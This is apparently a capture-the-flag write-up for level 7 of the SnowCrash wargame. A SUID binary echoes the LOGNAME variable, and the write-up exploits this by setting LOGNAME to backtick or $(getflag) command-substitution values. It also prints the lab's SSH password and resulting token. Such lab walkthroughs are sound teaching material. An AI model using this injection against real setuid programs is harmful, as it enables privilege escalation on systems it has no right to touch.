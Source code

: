 # Level07

Login as `level07`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level07
level07@192.168.1.64's password: wiok45aaoguiboiki2tuin6ub
```

There is a `SUID` executable in the home directory:

```bash
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```

And it seems it's printing the executable name (`argv[0]`)

[`ltrace`](https://man7.org/linux/man-pages/man1/ltrace.1.html) can be used to intercept dynamic library calls and system calls executed by the program.
[Radare2](https://github.com/radareorg/radare2) can be used also for this purpose

The program calls `getenv("LOGNAME")` which looks for the environement variable `LOGNAME` in the environement list.

So the variable `LOGNAME` can be changed with unix string's tricks to print the output of `getflag`:

```bash
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
#level07@SnowCrash:~$ export LOGNAME='`getflag`'
#level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```